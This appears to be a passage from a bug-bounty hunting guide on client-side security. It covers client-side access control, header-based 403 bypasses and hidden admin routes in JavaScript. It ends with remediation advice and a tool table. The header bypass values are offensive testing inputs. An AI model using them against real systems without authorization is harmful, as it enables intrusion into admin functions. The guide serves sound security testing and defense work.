Client-side access control is when a website relies on the browser to "Hide" admin buttons or pages. This is like a store that doesn't lock the door to the safe but instead puts a sign on it that says "Authorized Personnel Only." An attacker can simply ignore the sign and walk in.

> **Beginner Analogy**: Imagine a movie theater that doesn't have a ticket taker at the door. They just trust you to only enter if you have a ticket. You can simply walk past the "Staff Only" sign and sit in the VIP section.

### 23.1 Router Confusion (The "X-Header" Bypass)
Front-end proxies often use specific headers to route requests. If the backend trusts these headers without validation, you can bypass 403 blocks.
*   **Bypass Headers**:
    - `X-Original-URL: /admin`
    - `X-Rewrite-URL: /admin`
    - `X-Custom-IP-Authorization: 127.0.0.1`

### 23.2 Predictable Admin Paths in JS
Audit site's `.js` files for "commented out" hidden routes.
*   **Search**: `/admin-dashboard`, `/staging-v2`, `/internal-api/v1/debug`.

---

## 24. Remediation & Best Practices

### 24.0 Why It Is Necessary (Defense in Depth)
Securing a client-side application is about building multiple layers of defense. You cannot trust the user's browser to protect itself, so you must provide the browser with "Instructional Shields" (like CSP and Secure Cookies) to help it resist attacks.

> **Beginner Analogy**: Defense in depth is like wearing a helmet, knee pads, and gloves while riding a bike. Even if one piece of gear fails or you take a fall (a bug is found), the other layers prevent a total disaster.

*   **X-Frame-Options**: Set to `DENY` or `SAMEORIGIN`. (Blocks **[Section 6](#6-clickjacking--ui-redressing)**)
*   **Content Security Policy (CSP)**: (Blocks **[Section 3](#3-client-side-template-injection-csti)**, **[Section 16](#16-dom-based-open-redirects)**, and **[Section 18](#18-csp-bypass-techniques)**)
    - Avoid `unsafe-eval` and `unsafe-inline`.
    - Restrict `frame-ancestors` and `base-uri`.
    - Use `script-src 'self'`.
*   **CORS**: Strict allowlisting of trusted origins; never reflect or use `*`. (Blocks **[Section 5](#5-insecure-cors-configurations)**)
*   **PostMessage**: Always validate `event.origin`. (Blocks **[Section 8](#8-postmessage--window-interaction-auditing)**)
*   **Storage**: Never store authentication secrets (JWTs) in `localStorage`. (Blocks **[Section 19](#19-browser-storage-auditing)**)

---

## 25. Toolbox

| Tool | Category | Use Case |
| :--- | :--- | :--- |
| **DOM Invader** | Discovery / Tracing | Tracing Sources to Sinks (Section 10.3). |
| **Katana** | Automation | Headless crawling for .js assets (Section 12). |
| **Gxss / kxss** | Probing | Rapidly finding reflected parameters (Section 12.2). |
| **CSP Evaluator** | Auditing | Checking CSP for JSONP bypasses (Section 18.4). |
| **DevTools (App Tab)** | Forensics | Auditing LocalStorage and Cache (Section 19). |

---

---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: JWT Auditing](JWT%20&%20Auth%20Token%20Auditing.md) >>*
